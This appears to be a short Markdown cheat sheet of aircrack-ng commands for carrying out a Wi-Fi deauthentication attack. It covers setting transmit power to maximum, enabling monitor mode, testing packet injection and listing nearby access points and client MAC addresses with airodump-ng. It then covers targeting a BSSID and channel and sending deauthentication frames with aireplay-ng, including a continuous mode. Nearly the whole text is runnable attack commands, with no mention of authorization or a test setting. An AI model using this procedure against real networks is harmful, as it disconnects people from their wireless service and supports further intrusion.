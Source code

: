 # Deauthentication Attack
### Set router to max power
```
sudo iwconfig wlan1mon txpower 30
```
---

### Check / kill:
If things are weird
```
sudo airmon-ng check kill
```

---

### wlan1 Monitor mode:
```
sudo airmon-ng start wlan1
```
Interface now is appended `mon` e.g `wlan1mon`

---

### Test for packet injection
Once it's in monitor mode, run a test:
```
sudo aireplay-ng --test wlan1mon
```

---

Should see `Injection is working!`
### Gather MAC addresses
Use this command to see live network traffic, enabling you to see all the devices on the network and their MAC addresses. if you run this live you'll inevitably see the clients disconnect and reconnect when you deauth. Remember to add `--band a` for 5GHz: 
```
sudo airodump-ng wlan1mon --band abg -w dump
```

---

The top half are going to be the available WIFI networks / Access Points (APs). You have to output to file because the terminal is too small to display all of them. The bottom half are going to be clients/`STATIONS` and the `Probes` should tell you what they're connected to.

---

### Monitor traffic
Once you've found your target, listen to it live with:
```
sudo airodump-ng wlan1mon --bssid XX:XX:XX:XX:XX:XX --band abg
```
OR (try both - router likely broadcasts multiple BSSIDs, once for each GHz or if it multiplate bands(?))
```
sudo airodump-ng wlan1mon --essid "NetworkName" --band abg
```

---

### Deauth
The actual deauth - where `5` is the number of deauths, `0` would be to send them continously.
```
sudo aireplay-ng -0 5 -a ACCESSPOINT-BSSID -c CLIENT-BSSID wlan1mon
```

---


---

## NOTE
You have to be on the same channel as the AP you're deauthing, change it with:
```
sudo iwconfig wlan1mon channel 149
```

---
### For list of attacks:
We want `0` here
```
aireplay-ng
```
